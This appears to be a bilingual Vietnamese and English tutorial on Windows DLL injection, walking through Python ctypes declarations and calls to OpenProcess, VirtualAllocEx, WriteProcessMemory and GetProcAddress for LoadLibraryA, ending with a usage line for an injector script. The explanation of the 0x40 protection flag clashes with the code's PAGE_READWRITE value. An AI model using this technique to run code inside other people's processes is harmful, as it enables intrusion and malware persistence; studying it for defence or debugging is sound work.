# DLL INJECTION
### Các bước tiến hành DLL Injection - Steps to perform DLL Injection
   - Tấn công tiến trình - Attach to the process 
   - Phân bổ bộ nhớ chứa tiến trình - Allocate memory within the process
   - Chép đường dẫn DLL vào bộ nhớ tiến trình - Copy the DLL path into process memory    
   - Tạo luồng với tiến trình để thực thi DLL - Create a thread within the process to execute your DLL
### Danh sách API sử dụng - List APIs
- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.
### Win32 API
- Tạo cách định nghĩa cho hàm muốn gọi 
We’ll create definitions for the functions we want to call.

```
kernel32 = ctypes.windll.kernel32

LPCTSTR = ctypes.c_char_p 
SIZE_T = ctypes.c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD)
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, SIZE_T, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD)
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, SIZE_T, ctypes.POINTER(SIZE_T))
WriteProcessMemory.restype = ctypes.wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = ctypes.wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (ctypes.wintypes.HANDLE, LPCTSTR)
GetProcAddress.restype = ctypes.wintypes.LPVOID

class _SECURITY_ATTRIBUTES(ctypes.Structure):
    _fields_ = [('nLength', ctypes.wintypes.DWORD),
                ('lpSecurityDescriptor', ctypes.wintypes.LPVOID),
                ('bInheritHandle', ctypes.wintypes.BOOL)]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = ctypes.POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = ctypes.wintypes.LPVOID


CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (ctypes.wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPDWORD)
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

MEM_COMMIT = 0x0001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0x0
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0x00000FFF)
```
### OpenProcess()
- Sử dụng OpenProcess để trả về 1 handle để xử lí tiến trình chúng ta cần tương tác
We will use OpenProcess() to return a handle to the process so we can interact with it
```
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
```
- OpenProcess() có 3 tham số - OpenProcess() takes three arguments.
    - dwDesiredAccess - Đây là quyền truy cập vào tiến trình. Để sử dụng WriteProcessMemory, handle phải có quyền PROCESS_VM_WRITE và PROCESS_VM_OPERATION vào tiến trình.
 (This is the access rights to the process. In order to use WriteProcessMemory, the handle must have PROCESS_VM_WRITE and PROCESS_VM_OPERATION access to the process.)
    - bInheritHandle -Nếu giá trị này là TRUE, thì tiến trình được tạo bởi quá trình này cũng sẽ kế thừa handle. Chúng ta không cần điều này vì vậy chúng ta đặt nó thành FALSE. 
    (If this value is TRUE, then the process created by this process will also inherit the handle. We don’t need this so we set it to false.)
   - dwProcessID - Đây là id của tiến trình 
   This is the process id of the process to be opened.
### VirtualAllocEx()
- VirtualAllocEx() lấy một lượng bộ nhớ để phân bổ các tham số của nó.
VirtualAllocEx() takes amount of memory to allocate as one of its parameters.
```
memory = VirtualAllocEx(handle, False, len(dllname) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRIT
E)
```

- VirtualAllocEx() có 5  tham số - VirtualAllocEx()takes five arguments.
     - hProcess - Đây là handle tiến trình. Hàm này sẽ phân bổ bộ nhớ trong không gian địa chỉ ảo của tiến trình.
     This is the handle to the process. The function will allocate memory within the virtual address space of this process.
    - lpAddress - Đây là một con trỏ tới địa chỉ bắt đầu của vùng trang bạn muốn phân bổ. Nếu là NULL, hàm sẽ xác định vị trí cấp phát vùng.
    This is a pointer to the starting address of the region of pages you want to allocate. If this is NULL, the function will determine where to allocate the region.
    - dwSize - Đây là kích thước của vùng bộ nhớ để phân bổ, tính bằng byte. Chúng ta sẽ phân bổ không gian cho đường dẫn đầy đủ của DLL.
    This is the size of the region of memory to allocate, in bytes. We will allocate space for the full path of the DLL.
    - flAllocationType and flProtect - cho biết loại phân bổ và bảo vệ bộ nhớ, chúng ta dùng 0x3000 cho loại phân bổ sẽ gọi VirtualAllocEx với MEM_RESERVE và MEM_COMMIT. 0x40 chỉ ra rằng bộ nhớ có thể đọc và ghi được.
    This indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAllocEx with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable and writable.
### WriteProcessMemory()
Chép đường dẫn DLL vào tiến trình. 
Now we will copy the DLL path into the process. We can use WriteProcessMemory to do so.
```
write = WriteProcessMemory(handle, memory, dllname, len(dllname) + 1, None)
```
### LoadLibraryA() và CreateRemoteThread() 
- Tới đây chúng ta có DLL đã viết vào tiến trình đích, chúng ta bắt đầu một luồng mới để thực thi file DLL
Now that we have our DLL written to the remote process, we can start a new thread to load our DLL. 
- Đầu tiên cần xác định vị trí của LoadLibrary(). Để làm được chúng ta cần GetProcAddress và GetModuleHandle.
First,we need to find the location of LoadLibrary(). To do so, we’ll use GetProcAddress and GetModuleHandle.
- GetProcAddress sẽ truy xuất địa chỉ của hàm hoặc biến đã xuất từ tệp DLL.
GetProcAddress will retrieve the address of an exported function or variable from a DLL. 
- GetModuleHandle sẽ truy xuất handle module tới module đã chỉ định 
GetModuleHandle to retrieve a module handle to a specified module.
```
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
```
- Chúng ta đã có địa chỉ load library. Việc cần làm tiếp theo là tạo một luồng tới DLL đã tải lên. 
We have the load library address now, all we need to do is to create a thread to execute the loaded DLL.

./dll_injec.py -p <PID> -f <PATH_TO_DLL>
